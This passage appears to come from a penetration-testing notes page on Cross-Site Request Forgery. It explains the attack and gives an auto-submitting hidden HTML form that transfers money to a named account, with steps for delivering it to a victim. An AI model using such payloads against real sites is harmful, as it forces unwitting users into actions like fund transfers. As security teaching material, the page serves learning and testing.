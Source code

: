# Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
We can deliver a CSRF attack via GET or POST method depending on the case.

## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF via POST method. We have to do the action we want to exploit in our own account ant capture the POST. Once we have it we have to make an html form to deliver it. 
We can use an authomated resources as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or the following script modifiying it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First we obtain the POST method:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600">
- Finally we create the CSRF PoC so we can deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700">







In the next example we are going to tr
